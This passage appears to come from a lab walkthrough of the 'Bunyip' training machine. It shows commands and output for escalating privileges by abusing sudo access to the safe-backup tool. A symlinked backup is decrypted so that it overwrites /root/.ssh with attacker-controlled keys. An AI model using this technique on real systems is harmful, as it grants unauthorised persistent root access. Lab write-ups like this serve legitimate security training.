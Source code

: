 ```
|      . .=.+     |
|       o..B      |
|      . .o =     |
|       .+o.      |
+----[SHA256]-----+

$ cp id_rsa.pub authorized_keys
```

We can then download the compiled binary for `secure-backup` on our machine:

{% embed url="https://github.com/scrwdrv/safe-backup/releases/download/v1.1.1/safe-backup-linux" %}

Then, we can create a backup of the SSH keys we just created and rename the directory appropriately:

```
$ safe-backup --input /home/kali/pg/linux/bunyip/.ssh -o /home/kali/pg/linux/bunyip/backup

 Safe Backup v1.4.8
 Github: https://github.com/scrwdrv/safe-backup

2023-06-30 16:32:28 ¦ [00] -MASTER ¦  WARN ¦ Key pair not found, let's make one!

Set your password for encryption: 
 > password123

Please confirm your password is password123 [Y/N]? 
 > Y  
2023-06-30 16:32:34 ¦ [00] -MASTER ¦  INFO ¦ Generating new RSA-4096 key pair...
2023-06-30 16:32:35 ¦ [00] -MASTER ¦  INFO ¦ Public & private key generated at /home/kali/.config/safe-backup/key.safe
2023-06-30 16:32:36 ¦ [00] -MASTER ¦  INFO ¦ safe-backup is up to date, good for you!
2023-06-30 16:32:36 ¦ [04] -WORKER ¦  INFO ¦ Syncing & encrypting folder... [/home/kali/pg/...x/bunyip/.ssh]
2023-06-30 16:32:36 ¦ [00] -MASTER ¦  INFO ¦ Synced & encrypted [0.01s][6.95 KB][0.52 MBps][F:(+2)(-0)][D:(+1)(-0)][/home/kali/pg/...x/bunyip/.ssh]
2023-06-30 16:32:36 ¦ [00] -MASTER ¦  INFO ¦ Saving logs before exit...
```

Afterwards, we need to create a symbolic link to `/root/.ssh` as `-root-.ssh` in order to have the decryption overwrite the actual `/root/.ssh`. This is because when we decrypt the files, it would generate a new directory like this one containing the keys:

```
$ ls
-root-.ssh  -root-.ssh.bua
```

Run the following commands:

```
arnold@bunyip:/tmp/backup$ ln -s /root/.ssh /tmp/backup-root-.ssh
arnold@bunyip:/tmp/backup$ sudo safe-backup -d /tmp/backup/-root-.ssh.bua 

 Safe Backup v1.4.8
 Github: https://github.com/scrwdrv/safe-backup


Enter your password: 
 > password123
2023-06-30 08:40:25 ¦ [01] -WORKER ¦  INFO ¦ Decrypting & extracting file... [/tmp/backup/-root-.ssh.bua]
2023-06-30 08:40:25 ¦ [00] -MASTER ¦  INFO ¦ Decrypted, duration: 0.08s [/tmp/backup/-root-.ssh.bua]
2023-06-30 08:40:25 ¦ [00] -MASTER ¦  INFO ¦ Your decrypted file/folder can be found at /tmp/backup/-root-.ssh
2023-06-30 08:40:25 ¦ [00] -MASTER ¦  INFO ¦ Saving logs before exit...
```
